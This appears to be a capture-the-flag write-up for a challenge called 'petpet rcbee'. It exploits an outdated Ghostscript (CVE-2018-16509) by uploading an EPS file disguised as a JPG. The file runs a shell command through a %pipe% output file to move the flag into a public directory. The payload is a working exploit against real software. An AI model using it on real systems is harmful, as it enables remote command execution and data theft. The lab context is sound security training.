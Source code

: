 # petpet rcbee

Ok so we start with that nice little page:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

While looking at the files we can see a version of ghostscript:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I find this CVE for that version: [https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

So what this we can try and move the flag to a directory we control, on the main web page we see those links:

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

So let's create a fake jpg file and move the flag to a directory we can access ->

```
└──╼ [★]$ cat rce.jpg 
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%mv /app/flag /app/application/static/assets)
currentdevice putdeviceprops
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

and then we get the flag here: view-source:http://{IP}:{PORT}/static/assets/flag
